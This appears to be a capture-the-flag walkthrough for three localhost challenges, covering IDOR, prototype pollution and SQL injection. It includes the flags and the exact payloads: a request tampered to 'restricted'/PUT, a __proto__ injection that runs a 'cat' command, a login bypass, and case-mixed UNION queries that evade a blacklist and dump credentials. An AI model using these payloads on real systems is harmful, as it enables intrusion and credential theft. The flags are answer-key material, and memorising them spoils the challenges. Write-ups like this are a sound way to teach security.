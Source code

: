 
## 🧾 IDOR 2 - The Digital Papyrus Project
**URL:** `http://127.0.0.1:5010/`  
**Flag:** `O24{4nc13nt_p4pyru5_15_4_h1dd3n_tr34sur3}`

### Steps
1. Intercept the **Download All Documents** request.
2. Change the parameter from `public` to `restricted` and the method from `GET` to `PUT`.
   - Hints:
     - "restricted" is mentioned above the “Enter the Archive” button.
     - The `PUT` hint is in a comment inside the HTML code at `/papyrus`.
3. Download and unzip the ZIP file.
4. In the terminal, use:
   ```bash
   pdfgrep -i "O24" *.pdf
   ```
   This gives fake flags (decoys).
5. Instead, use:
   ```bash
   exiftool -a -u -g1 *.pdf | grep -i "O24"
   ```
   This will show the real flag from the `author` field.

---

## 🧪 Prototype Pollution - Temple of Khnum
**URL:** `http://127.0.0.1:5011`  
**Flag:** `O24{pr0t0typ3_p0llut10n_1s_4nc13nt_m4g1c}`

### Steps
1. In the "Configure temple scanner" input box, enter:
   ```json
   {"__proto__": {"foo": "bar"}}
   ```
2. Click "Update Scanner Configuration".
3. Click "Inspect Scanner" and verify that `foo: bar` appears.
4. Check `/api/scanner/debug` in your proxy history.
5. Note the presence of the `sacred_text_translator` field.
6. Submit the payload:
   ```json
   {"__proto__": {"sacred_text_translator": "cat home/priest/eye_of_horus.txt"}}
   ```

---

## 🧬 SQL Injection - The Lost Archaeologist
**URL:** `http://127.0.0.1:5014`  
**Flag:** `O24{1nj3c10n_m4st3r_g0d}`

### Steps
1. Login bypass:
   ```sql
   ' or 1=1--
   ```
   You will get the first part of the flag: `O24{1nj3c10n_`
2. Union injection to discover tables (Note: there's a blacklist so capital and lowercase of union, select, null, from & and won't work unless in a mix):
   ```sql
   ' UnIoN sElEcT table_name, NuLl, NuLl, NuLl FrOm information_schema.tables --
   ```
3. Focus on tables: `pharaohs_secret` and `generals`
4. Dump credentials:
   ```sql
   ' UnIOn SeLeCt username, access_level, nUlL, nULL FrOm pharaohs_secret--
   ```